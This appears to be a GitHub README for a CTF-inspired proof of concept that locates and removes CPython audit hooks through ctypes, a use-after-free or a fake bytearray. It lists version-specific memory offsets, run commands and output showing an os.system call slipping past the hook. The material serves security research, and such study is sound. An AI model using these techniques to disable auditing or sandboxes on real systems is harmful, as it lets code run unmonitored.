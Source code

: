 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.4 (main, Jun  7 2024, 06:33:07) [GCC 14.1.1 20240522] on linux
Python 3.12.3 (tags/v3.12.3:f6650f9ad7, Jun 24 2024, 16:32:34) [GCC 14.1.1 20240522] on linux
Python 3.12.1 (tags/v3.12.1:2305ca5144, Jun 24 2024, 18:55:02) [GCC 14.1.1 20240522] on linux
Python 3.11.9 (main, Jun 23 2024, 04:47:27) [GCC 14.1.1 20240522] on linux
```

## Offsets
### For ctypes
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [0x41448, -0x11df0] # <= 3.12.3
    else:
        PTR_OFFSET = [0x41448, -0x11e20] # for python3.12.4
else:
    # python 3.11
    PTR_OFFSET = [0xe00, -0xe388]
```

### For UAF
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC-no-ctypes.py
# offset for audit hook set by Python and C
if sys.version_info[:2] == (3, 12):
    if sys.version_info[2] <= 3:
        PTR_OFFSET = [24, 48, 0x468f0, -0xc948] # <= 3.12.3
    else:
        PTR_OFFSET = [24, 48, 0x46920, -0xc948] # for python3.12.4
else:
    # there are multiple offsets for 3.11? check the result of POC-no-ctypes.py
    PTR_OFFSET = [24, 48, 0x4d558, 0x3e3d0]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
> ref: <https://maplebacon.org/2024/02/dicectf2024-irs/>

[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
# build the helper binary
./build.sh
# brute-force the offsets
./POC-no-ctypes.py
# verify the offsets works
./POC2-no-ctypes.py
```

## Smash Audit hook with fake bytearray
> ref: <https://www.da.vidbuchanan.co.uk/blog/35c3ctf-collection-writeup.html> and <https://github.com/gousaiyang/my-ctf-challenges/tree/master/PyAuCalc>
> more context: <https://github.com/DavidBuchanan314/unsafe-python>

### How to use
```bash
./build.sh
./POC-fake-bytearray.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
- [ ] Use <https://bugs.python.org/issue43838> to smash it?
